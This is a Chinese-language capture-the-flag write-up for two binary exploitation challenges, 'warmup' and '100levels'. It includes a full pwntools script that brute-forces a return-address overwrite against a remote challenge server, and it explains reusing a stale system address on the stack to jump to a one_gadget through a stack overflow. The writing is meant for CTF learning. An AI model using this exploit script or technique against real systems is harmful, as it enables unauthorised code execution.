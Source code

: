 ## warmup

爆破完事

![w0.png](https://i.loli.net/2019/08/06/3GVDHNrp7yXRBAt.png)

完整EXP：

```python
from pwn import *
for i in range(100):
    try:
        p = remote("111.198.29.45", "54400")
        p.recv()
        p.sendlineafter(">", p64(0x40060d) * i)
        flag = str(p.recv())
        if flag.find("{") != -1:
            print flag
            break
    except:
        pass
```

## 100levels

![10.png](https://i.loli.net/2019/08/06/x3SFkQ6fgvXtJPH.png)

没有Canary，貌似可以栈溢出？

![11.png](https://i.loli.net/2019/08/06/2FycQ5HWal8nGXw.png)

Hint功能中有输出system地址的字样

可惜这个全局变量check无法改变，一直都为0，也不存在格式化字符串去修改这个变量，也就是说我们是无法把这个值通过这个函数来泄漏system地址，但是看其汇编代码

![12.png](https://i.loli.net/2019/08/06/VisrUC7FveD1M4f.png)

虽然没得输出，但还是遗留在栈中，rbp-0x110的位置，也就是esp的位置，接着他就会返回，并不能输出，那么如何利用这个栈中的system地址？

![13.png](https://i.loli.net/2019/08/06/6uk4gm8zbwCLSyY.png)

我们发现，在Go功能中，postive变量位置是rbp-0x110，调试时可以发现函数栈rbp与Hint函数栈的rbp相同，也就是positive变量这时候就是system地址

![14.png](https://i.loli.net/2019/08/06/USl1VEkLHDuoq4y.png)

![15.png](https://i.loli.net/2019/08/06/aG36MpUDidfXsyE.png)

同时在这里可以注意到system函数地址可以保留（输入负数），再通过more可以修改偏移，存放在true里，也还是rbp-0x110，这样我们就可以在libc中跳了，可以跳去onegadget

![17.png](https://i.loli.net/2019/08/06/k5mgDa4NeIxp71A.png)

在game中存在栈溢出，而且，可以修改返回地址
